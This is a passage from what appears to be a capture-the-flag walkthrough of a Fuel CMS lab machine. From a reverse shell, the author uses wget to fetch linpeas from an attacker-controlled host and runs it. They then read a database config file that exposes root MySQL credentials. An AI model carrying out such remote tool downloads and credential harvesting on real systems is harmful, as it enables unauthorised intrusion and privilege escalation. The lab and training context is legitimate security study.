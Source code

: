 We have a connection!!

Lets check if there is somehting we are allowed to do via `sudo -l`:

```bash
www-data@ubuntu:/var/www/html$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified

```

Okay we use our python webserver and dowload `linepeas.sh` from the target

```bash

Enter Command $wget "http://10.11.110.106:5678/linepeas.sh"

```

And in our reverse shell we open it: 

```bash

www-data@ubuntu:/var/www/html$ chmod 777 linepeas.sh
chmod 777 linepeas.sh
www-data@ubuntu:/var/www/html$ ./linepeas.sh
```



After analyzing `linepeas.sh` we found following:

``` bash


╔══════════╣ Analyzing Backup Manager Files (limit 70)

-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
        'password' => 'mememe',
        'database' => 'fuel_schema',
```

We have a `password` for the databases. Lets see what kind of `databases` we have in this file:

```bash

www-data@ubuntu:/var/www/html$ cat /var/www/html/fuel/application/config/database.php


$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
```